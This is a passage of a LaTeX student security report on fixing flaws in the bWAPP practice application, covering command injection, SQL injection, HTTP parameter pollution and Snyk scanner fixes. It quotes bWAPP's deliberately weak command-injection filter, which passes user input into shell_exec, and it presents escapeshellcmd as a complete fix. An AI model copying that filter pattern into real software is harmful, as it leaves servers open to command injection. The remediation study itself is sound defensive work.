    
\includegraphics[width=1\linewidth]{Figures/beef/no-longer-works.png}
    \caption{\label{fig:no-longer-works}XSS attack remediation}
\end{figure}

\subsubsection{Command Injection}
From the test we can already tell that there are improper parameter validation on medium security. On low difficulty there is no validation.

We can see that on medium security, only the \& and ; caracters are deleted, leaving the | caracters as they are.
A bad way to fix it would be to also remove the | caracters, as you don't include the redirect operators and in always better to have a whitelist of caracters, rather than a blacklist.
The way to fix it is using the escapeshellcmd command, as it is used on the hard security level
\begin{lstlisting}[language=php,caption={Backdoor Code},label=php:command-injection-code]
function commandi_check_1($data)
{
    
    $input = str_replace("&", "", $data);
    $input = str_replace(";", "", $input);
    
    return $input;
    
}

function commandi_check_2($data)
{
   
    return escapeshellcmd($data);
    
}

function commandi($data)
{

    switch($_COOKIE["security_level"])
    {

        case "0" :

            $data = no_check($data);
            break;

        case "1" :

            $data = commandi_check_1($data);
            break;

        case "2" :

            $data = commandi_check_2($data);
            break;

        default :

            $data = no_check($data);
            break;

    }

    return $data;

}


shell_exec("ping -c 1 " . commandi($target));
\end{lstlisting}

\subsubsection{SQL injection}
Regarding SQL injection prevention and remediation, OWASP provides an official cheat sheet for this at \cite{owasp-sqli-cheat-sheet}.
According to it, in order to avoid SQL injection flaws, developers have to stop writing dynamic queries with string concatenation and prevent malicious SQL input from being included in executed queries.
The most recommended methods to defend against such attacks are: use of prepared statements with parametrized queries (which is also recommended by BWAPP to increase security), use of properly constructed stored procedures and Allow-list input validation.

\subsubsection{HTTP Parameter Pollution}
Regarding HTTP Parameter Pollution prevention and remediation, two ways would be to ensure that user input is URL-encoded before it is embedded in a URL or throw an error in case of multiple parameters. For example, BWAPP does the latter to remedy the issue on higher security levels.
\begin{lstlisting}[language=php,caption={HTTPPP Code},label=php:httppp-code]
// Detects multiple parameters with same name (HTTP Parameter Pollution)
function hpp_check_1($data)
{

    // Debug
    // echo $data;
   
    $query_string  = explode("&", $data);    

    $i = "";
    $param = array();
    $param_variables = array();

    foreach($query_string as $i)
    {

            $param = explode("=", $i);
            array_push($param_variables, $param[0]);

    }

    $count_unique = count(array_unique($param_variables));
    $count_total = count($param_variables);
    
    $hpp_detected = "";

    // $hpp_detected = ($count_unique < $count_total);
    // echo $hpp_detected;
    
    if($count_unique < $count_total)
    {

        $hpp_detected = "<font color=\"red\">HTTP Parameter Pollution detected!</font>";

    }

    return $hpp_detected;

}
\end{lstlisting}


\subsection{Defensive approach}

\subsubsection{SQL Injection}
\par The Figure \ref{fig:snyk-sql-injection-issue} shows that the SQL Injection is possible. To avoid this issue, the scanner suggests to sanitize the input using the \textit{mysqli\_real\_escape\_string} function. This function will sanitize the input and this will get off the vulnerability, as it is no longer captured by the scanner, in Figure \ref{fig:snyk-sql-injection-fix}.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/sql-injection-problem.PNG}
    \caption{SQL Injection captured by Snyk}
    \label{fig:snyk-sql-injection-issue}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/sql-injection-fix.PNG}
    \caption{Snyk SQL Injection fix}
    \label{fig:snyk-sql-injection-fix}
\end{figure}
\subsubsection{XPath}
\par The Figure \ref{fig:snyk-xpath-issue} shows that the XPath vulnerability exists in the code. To avoid this issue, the scanners suggests to replace the function argument with an escaped argument, which will escape the single quote characters. The solution is does not have a vulnerability, as can be seen in Figure \ref{fig:xpath-snyk-fix}.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/xpath-issue-snyk.PNG}
    \caption{XPath issue captured by Snyk}
    \label{fig:snyk-xpath-issue}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/xpath-snyk-fix.PNG}
    \caption{XPath Snyk fix}
    \label{fig:xpath-snyk-fix}
\end{figure}
\subsubsection{Code Injection}
\par The Figure \ref{fig:snyk-code-injection-issue} shows that the scanner captured a code injection vulnerability. The suggestion to fix this issue was not a good enough, because the scanner's suggestions only tackled specific use cases of the eval method. The solution was to use the echo function outside of the eval function, which works at operating system level. The found solution does not get a vulnerability warning message from the scanner. After replacing with more secured solutions, the number of vulnerabilities decreased, as suggested in the Figure \ref{fig:final-vulnerabilities-count}. The number of high vulnerabilities decreased with exactly 3 vulnerabilities, the ones solved above.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/code-injection.PNG}
    \caption{Code Injected captured by Snyk}
    \label{fig:snyk-code-injection-issue}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/code-injection-snyk-fix.PNG}
    \caption{Code Injection fix}
    \label{fig:snyk-code-injection-fix}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/issues2.PNG}
    \caption{After solving vulnerabilities}
    \label{fig:final-vulnerabilities-count}
\end{figure}
\section{Conclusions}
\label{}
\par The power of bringing the security in the development process using a SAST tool like Snyk makes the applications more secured and reliable on long-term. The way how easy is to integrate Snyk into your environment makes it a must-have tool for any project.

Is important to correctly validate user input. The best way to validate user input is with predefined functions like \textit{htmlspecialchars}, \textit{addslashes}, \textit{escapeshellcmd}.
When such function are not available, always have a whitelist of caracters instead of a blacklist.
In case you miss a caracter from the whitelist, at worst case the user experiance is not the greatest, but if you miss a caracter from a blacklist, you leave yourself vulnerable to have a backdoor installed on your server, even after you remediate the error.

\bibliographystyle{alpha}
\bibliography{sample}

\end{document}
